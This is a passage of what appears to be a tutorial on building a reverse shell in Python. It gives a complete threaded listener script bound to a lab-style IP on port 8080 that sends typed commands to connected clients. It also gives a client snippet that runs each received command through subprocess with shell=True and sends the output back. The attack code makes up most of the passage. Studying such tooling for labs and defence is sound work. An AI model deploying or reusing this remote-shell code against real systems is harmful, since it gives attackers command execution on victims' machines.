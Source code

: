 ```python
response = sock.recv(4096)  
if not response:
    break
print(f"{response.decode('utf-8')}")
```

### <mark style="color:yellow;">Complete script</mark>

```python
import socket
import threading

HOST =  "10.10.14.168" # Empty will accept all connections
PORT = 8080

def main():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server:
        server.bind((HOST, PORT))
        server.listen(5)
        print(f'[*] Listening on {HOST}:{PORT}')
               
        while True: # Infinite loop, will always accept new connections
            conn, addr = server.accept()
            print(f'[*] Accepted connection from {addr[0]}:{addr[1]}')

            # Create new thread, specify function and pass client socket (conn).
            client_handler = threading.Thread(target=handle_client, args=(conn,))  
            client_handler.start()

def handle_client(client_socket):
    with client_socket as sock:  # closes socket if functions exits
        while True:
            command = input("$ ")
            if command.lower() == 'exit':  # Close connection if 'exit' command is given
                break
            sock.send(command.encode('utf-8'))  # Send command to client
            
            response = sock.recv(4096)  # Receive output from client
            if not response:
                break
            print(f"{response.decode('utf-8')}")

if __name__ == "__main__":
    main()
```

Then the client we use a while loop again and break if request is empty or `exit` is typed. We then use the subprocess module.

```python
try:
    result = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    output, error = result.communicate()
    output = output.decode('utf-8') + error.decode('utf-8')
except Exception as e:
    output = str(e)

client.send(output.encode('utf-8'))  
```
